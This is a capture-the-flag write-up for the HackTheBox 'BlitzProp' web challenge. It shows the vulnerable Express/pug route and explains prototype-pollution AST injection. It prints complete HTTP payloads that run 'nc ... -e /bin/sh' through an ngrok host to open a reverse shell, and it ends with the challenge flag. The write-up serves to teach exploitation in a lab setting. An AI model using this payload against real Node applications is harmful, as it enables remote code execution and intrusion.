


# CTF HackTheBox 2021 Cyber Apocalypse 2021 - BlitzProp

Category: Web, Points: 300


And attached file: [web_blitzprop.zip](web_blitzprop.zip)

# BlitzProp Solution

Let's start the docker and browse it:



By intercepting the request/response using [BurpSuite](https://portswigger.net/burp) we can see the following request when we clicked on Submit button:



By observing the code on attached [web_blitzprop.zip](web_blitzprop.zip) we can see the file routes/index.js:
```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

We can see the following line:
```js
...
'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
```

```pug.compile``` function converts a string into a template function and passes the object for reference.

We can use [AST-Injection](https://blog.p6.is/AST-Injection/) to get RCE with ```pug.compile```.

So Let's replace the request body to the following (from the link below):
```HTTP
POST /api/submit HTTP/1.1
Host: 139.59.174.238:32389
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.174.238:32389/
Content-Type: application/json
Origin: http://139.59.174.238:32389
Content-Length: 210
DNT: 1
Connection: close

{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('nc <ip> <port> -e /bin/sh')"
		}
}
```

Now, we can use [ngrok](https://ngrok.com/) to create tunnel from ngrok cloud to our host.

Let's do it (tutorial on ngrok website):
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ unzip /path/to/ngrok.zip
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ ./ngrok authtoken <YOUR_TOKEN>
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ ./ngrok tcp 5533
ngrok by @inconshreveable                                                                                                                                                     (Ctrl+C to quit)                    
Session Status                online
Account                       evyatar9@evyatar9.com 
Version                       2.3.39
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://3.tcp.ngrok.io:11163 -> localhost:5533
Connections                   ttl     opn     rt1     rt5     p50     p90                                           
                              3       0       0.00    0.00    0.00    314.51
```

Now, Listen on port 5533 using nc:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ nc -lvp 5533
listening on [any] 5533 ...
```

Sending the following HTTP request:
```HTTP
POST /api/submit HTTP/1.1
Host: 139.59.174.238:32389
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.174.238:32389/
Content-Type: application/json
Origin: http://139.59.174.238:32389
Content-Length: 210
DNT: 1
Connection: close

{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('nc 3.tcp.ngrok.io 11163 -e /bin/sh')"
		}
}
```

Shell:
```console
listening on [any] 5533 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 53498
whoami
nobody
ls
flagJfmNf
index.js
node_modules
package.json
routes
static
views
yarn.lock
cat flagJfmNf
CHTB{p0llute_with_styl3}
```

And we get the flag: ```CHTB{p0llute_with_styl3}```.